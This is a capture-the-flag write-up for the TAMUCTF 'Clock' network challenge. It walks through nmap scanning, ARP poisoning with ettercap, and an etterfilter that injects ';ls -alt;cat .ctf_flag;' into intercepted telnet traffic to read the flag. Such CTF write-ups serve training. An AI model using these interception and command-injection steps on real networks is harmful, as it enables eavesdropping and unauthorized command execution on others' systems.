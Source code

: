 # TAMUCTF Clock (Network/Pentest) Write-Up

### Jump straight in
``TeXt

	nmap 172.30.0.0/28

	Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-03 21:24 CST
	Nmap scan report for 172.30.0.2
	Host is up (0.087s latency).
	Not shown: 999 closed ports
	PORT   STATE SERVICE
	23/tcp open  telnet
	MAC Address: 02:42:16:55:5A:3B (Unknown)

	Nmap scan report for 172.30.0.3
	Host is up (0.087s latency).
	All 1000 scanned ports on 172.30.0.3 are closed
	MAC Address: 02:42:CF:07:5C:FF (Unknown)

	Nmap scan report for 172.30.0.14
	Host is up (0.0000060s latency).
	All 1000 scanned ports on 172.30.0.14 are closed

	Nmap done: 16 IP addresses (3 hosts up) scanned in 7.01 seconds
	``

2. We telnet open and we also see 2 hosts online. `172.30.0.2 and 172.30.0.3`. Taking knowledge from the previous challenges we will now initiate an ARP spoofing ettercap.

	**Arp Spoofing**

	Lets crack open Ettercap

		ettercap -G 				Opens etter in graphical mode

	First we gotta tell ettercap what it’s doing open.

		Sniff > Unified Sniffing > tap0 > OK
		
		This is telling ettercap to sniff the unified network tap0 which is going to set out interface to the VPN we connected to for the challenges

	Next we need to tell ettercap where the hosts are. Or actually let it find them itself. 

		Hosts > Scan for hosts

	Done. It now knows who’s online

	Now we need to actually specify the mode of the ettercap man in the middle attack. 

		Mitm > Arp Poisioning > Sniff remote connections (leave Only poision one way OFF) > OK
		
		This is setting the Mitm mode to ARP spoofing.  


3. Now we shall slide on over to wireshark and view the traffic we are stealing. 

	We some interesting things. One of with is the telnet login, but funny enough we will never directly telnet to this box. 
	We also can see that there is a challenge thingy and that the box `172.30.0.3` seems to solve it automatically. My first thought was that we can get `172.30.0.3` to solve the challenge we get from our login but that was a bad idea. Finally discovered etterfilters with a little nudge and started to write one that would drop the letter `t` from the command it’s running `date` and inject `;ls -la;` with the semi-colons there to terminate the commands before and after

	Important Note: We chose to drop the letter t from date because it's the only letter in that command that is not applicable in hex. If we had chosen any other letter we would've corrupted the challenge and thus gotten an incorrect response and not allowed access into the box. 

4. As for the actual etterfilter…

		if (ip.dst == '172.30.0.2'){
			msg("Found packet. Now editing");
			replace("t", ";ls -alt;");
		}

	and now to run this we first need to compile. I named this script `clocketter` so my compile command was

		etterfilter clocketter

	at least for Kali Linux.

	Now we can venture on over to ettercap and give it the filter.

		Filters > Load a filter... > Select etterfilter.ef > OK

	You’ll know It’s working if you included a msg to tell you it’s working. Mine started dumping in `Found packet. Now editing` so I was hopeful I was about to see list of files. Wireshark dumped back…

		-bash: exi: command not found
		total 28
		-rw------- 1 alice alice 7888 Mar  4 03:34 .bash_history
		drwxr-xr-x 1 alice alice   41 Mar  3 20:36 .
		drwx------ 2 alice alice   34 Mar  3 20:36 .cache
		-rw------- 1 root  root    53 Feb 22 13:21 .naumotp_secret
		-rw-r--r-- 1 root  root    40 Feb 22 13:21 .ctf_flag
		drwxr-xr-x 1 root  root    19 Feb 22 13:21 ..
		-rw-r--r-- 1 alice alice  655 May 16  2017 .profile
		-rw-r--r-- 1 alice alice  220 Aug 31  2015 .bash_logout
		-rw-r--r-- 1 alice alice 3771 Aug 31  2015 .bashrc

	and thus I extended my etterfilter to be

		if (ip.dst == '172.30.0.2'){
			msg("Found packet. Now editing");
			replace("t", ";ls -alt;cat .ctf_flag;");
		}

	which dumped out

		-bash: exi: command not found
		total 28
		-rw------- 1 alice alice 7888 Mar  4 03:34 .bash_history
		drwxr-xr-x 1 alice alice   41 Mar  3 20:36 .
		drwx------ 2 alice alice   34 Mar  3 20:36 .cache
		-rw------- 1 root  root    53 Feb 22 13:21 .naumotp_secret
		-rw-r--r-- 1 root  root    40 Feb 22 13:21 .ctf_flag
		drwxr-xr-x 1 root  root    19 Feb 22 13:21 ..
		-rw-r--r-- 1 alice alice  655 May 16  2017 .profile
		-rw-r--r-- 1 alice alice  220 Aug 31  2015 .bash_logout
		-rw-r--r-- 1 alice alice 3771 Aug 31  2015 .bashrc
		gigem{a032b26061c96e00e2a0b9e991f11476}
		alice@f855819477fd:~$

	This was a relatively short challenge in the number of steps but figuring out etterfilters, finding this solution, and executing the hack was a long tedious process. 
